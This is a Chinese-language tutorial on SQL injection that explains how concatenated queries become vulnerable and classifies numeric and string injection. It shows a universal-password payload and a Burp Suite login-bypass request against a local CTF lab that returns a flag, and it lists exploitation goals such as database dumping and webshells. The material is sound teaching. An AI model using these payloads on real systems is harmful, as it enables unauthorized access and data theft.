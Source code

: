 # ==WEB SQL注入漏洞原理与利用==

## SQL注入原理深入解析

SQL注入产生原理

**动态交互网站，实现交互，利用用户输入拼接到SQL执行，输入不同导致返回结果不同。用户输入内容没有经过完美处理，而且构造SQL语句，直接将构造的SQL语句带入SQL语句中执行，导致SQL注入漏洞**

```sql
登录功能模块:实现用户身份认证

用户输入: 用户名和密码
SQL语句拼接: select * from admin where username ='用户提交’and password ='用户提交'

正常情况下，where条件语句当用户提交数据在数据库中存在才返回真，不存在返回假，可以完成用户身份认证。

但是如果恶意用户输入一段精心构造的SQL语句，使得输入部分也被识别为SQL语句，那么此时就会造成SQL注入漏洞。
```



```sql
 案例: 万能密码
 SQL语句拼接: select * from admin where username ='用户提交’and password ='用户提交'
 
 用户输入:密码位置 1' or '1'= '1
 SOL语句拼接:
 select * from admin where username ='用户提交' and password ='1' or '1' = '1'
 
 此时where条件语句中的内容等价于 1 (真) SQL语句执行结果为 返回所有数据，达到绕过登录认证机制。
```



实验：

Burpsuite进行万能密码测试 

环境: PHP+Mysql

注意: Burpsuite Repeater模块中 空格使用加号+或%20替代。

```http
POST /01SQL/01Login/flag.php HTTP/1.1
Host: 127.0.0.1:0000
User-Agent: Mozilla/5.0 (X11; U; Linux x86_64; en-US) AppleWebkit/540.0 (KHTML, like Gecko)
Ubuntu/10.10 Chrome/9.1.0.0 Safari/540.0
Accept: text/html,application/xhtml+xml,application/xml;g=0.9,image/webp,*/*;g=0.8
Accept-Language: zh-CN,zh;g=0.8,zh-TW;g=0.7,zh-HK;g=0.5,en-US;g=0.3, en;g=0.2
Accept-Encoding: gzip，deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 37
Origin: http://127.0.0.1:8080
Connection: close
Referer: http://127.0.0.1:8080/01SQL/01Login/login.php
Upgrade-Insecure-Requests: 1
username=xxx'+or+1#&password=password
```

**SOL语句: select * from admin where username = 'xxx'+or+1 #and password = 'password**';

这里的+表示空格

操作如下

<img src="C:\Users\hp\AppData\Roaming\Typora\typora-user-images\image-20230826230013746.png" alt="image-20230826230013746" style="zoom:200%;" />

<img src="C:\Users\hp\AppData\Roaming\Typora\typora-user-images\image-20230826230046766.png" alt="image-20230826230046766" style="zoom:200%;" />

```http
HTTP/1.1 209 OK
Date: Mon， 11 May 2020 12 :09:53 GMT
Server: Apache/2.4.23 (Win32) OpenSSL/1.0.2j mod_fcgid/2 .3.9
X-Powered-By: PHP/5.3.29
Connection: close
Content-Type: text/html;charset=utf-8
Content-Length: 46

flag{9bc62cb833726d44790348b0e9cbd8a}
```



## SQL注入类型分类

**SQL语句中用户输入的数据无非只有两种，一种数字，另外一种字符**

```SQL
数字型注入:
select * from articles where id = 1
select * from aritcles where id = (1)

字符型注入:逃逸引号，闭合引号
select * from articles where id = '1'
select * from articles where id = "1"
select * from articles where id = ('1') 
```

注意: SQL语句中的 () 不代表实际含义，只作为一个分组处理。



## SQL注入可能位置

SQL注入漏洞出现的位置存在于用户可控输入范围，用户输入的位置由以下内容组成：

**1、URL提交的参数
2、HTTP请求主体 (POST提交的数据)
3、HTTP请求头 (User-Agent、 Referer、 Cookie等)**

以上输入位置只要提交的数据 未完美处理 被带入到SQL执行，就存在SQL注入漏洞.



## SQL注入利用方式

验证SQL注入漏洞存在后，可以进行利用SQL注入漏洞做以下操作:

**1.获取数据库信息 (脱裤)
2.获取系统命令执行shell
3.上传、下载服务器文件 (webshell) 等**



对于SQL注入漏洞的利用技术可以大致分为以下四类：

**1、联合注入
2、布尔盲注
3、延时盲注
4、报错注入**



如果想要深入掌握SOL注入并解决CTF题目，必须精通四种注入利用技术。

**总结:
1.SQL注入为什么会产生? (SQL语句拼接)
2.SQL注入类型分类有哪些? (数字和字符)
3.SOL注入可能出现的位置在哪里? (HTTP请求中的任意位置)
4.SQL注入利用的方式有那些? (联合查询、布尔盲注、延时盲注、报错注入)**



